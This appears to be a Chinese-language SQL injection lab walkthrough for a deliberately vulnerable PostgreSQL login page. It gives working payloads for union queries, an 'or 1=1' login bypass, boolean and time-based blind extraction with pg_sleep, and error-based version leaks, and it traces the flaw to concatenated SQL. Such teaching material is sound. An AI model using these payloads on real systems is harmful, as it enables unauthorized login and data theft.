PostgreSql注入
后台登录
用户列表
| 序号 | 账号 | 手机号 | PID | UID |
|---|
思路提示
- 一般来说，如果一个点可以注入，那大概整个系统都完蛋-_-
- 如果页面没有回显，那么你会怎么利用注入呢？
- 如果你不会PostgreSql的语法，建议百度一下~
正确实现
进入漏洞页面，随意登录，并抓取登录数据包：
此时的Sql语句为：
SELECT "USERNAME" FROM pilot."USER" WHERE ("USERNAME" = 'admin' AND "PASSWORD" = '21232f297a57a5a743894a0e4a801fc3')
对登录时通常不会进行加密存储的
username参数进行Sql注入测试：此时的Sql语句为：
SELECT "USERNAME" FROM pilot."USER" WHERE ("USERNAME" = 'admin'' AND "PASSWORD" = '21232f297a57a5a743894a0e4a801fc3')，语法错误。
可以发现后端数据库产生报错。此处为登录接口，回显点为
username，即一般考虑联合查询、布尔注入、时间盲注、布尔盲注、报错注入。首先进行联合查询测试，尝试查询数据库名称：
此时的Sql语句为：
SELECT USERNAME FROM USER WHERE (USERNAME = '-1') UNION SELECT current_database() -- PASSWORD = '21232f297a57a5a743894a0e4a801fc3')，--是注释符。
其次进行布尔测试，判断SQL语句闭合情况，并进行无密码登录：
此时的Sql语句为：
SELECT "USERNAME" FROM pilot."USER" WHERE ("USERNAME" = 'admin' or '1'='1')-- ' AND "PASSWORD" = '21232f297a57a5a743894a0e4a801fc3')，--是注释符。
此时的Sql语句为：
SELECT "USERNAME" FROM pilot."USER" WHERE ("USERNAME" = 'admin' or '1'='1' AND "PASSWORD" = '21232f297a57a5a743894a0e4a801fc3')
可以发现以上两种情况可以正确闭合Sql语句。通过布尔盲注爆破库名，这里演示为使用BurpSuite完成：
此时的Sql语句为：
SELECT "USERNAME" FROM pilot."USER" WHERE ("USERNAME" = 'admin' and substring(current_database(),1,1)='a')-- ' AND "PASSWORD" = '21232f297a57a5a743894a0e4a801fc3')
尝试是否可以进行延时注入，对数据库进行5秒延时：
此时的Sql语句为：
SELECT "USERNAME" FROM pilot."USER" WHERE ("USERNAME" = 'admin' or (select pg_sleep(5)) is null)-- ' AND "PASSWORD" = '21232f297a57a5a743894a0e4a801fc3')
可以进行延时注入。尝试时间盲注爆破库名，这里演示为使用Python脚本完成：
- Python脚本源码下载：PostgreSql时间盲注脚本
此时的Sql语句为：
SELECT "USERNAME" FROM pilot."USER" WHERE ("USERNAME" = 'admin' and (select case when(ascii(substring(current_database(),{i},1))>{mid}) then pg_sleep(3) else null end) is null)-- ' AND "PASSWORD" = '21232f297a57a5a743894a0e4a801fc3')
因为之前已经验证过此处会返回SQL语句报错，故也可以进行报错注入：
此时的Sql语句为：
SELECT "USERNAME" FROM pilot."USER" WHERE ("USERNAME" = 'admin')and cast((select version()) as int)=1-- ' AND "PASSWORD" = '21232f297a57a5a743894a0e4a801fc3')，类型转换会报错出数据库版本号。
除了登录接口可以注入外，登录后的信息获取接口也可以进行布尔注入、时间注入和报错注入，因为原理一样，此处不再演示。
源码解析
- 在登录和查询信息时，使用拼接SQL语句的方式构造命令，而不是通过预编译后再执行命令，致使SQL注入漏洞产生：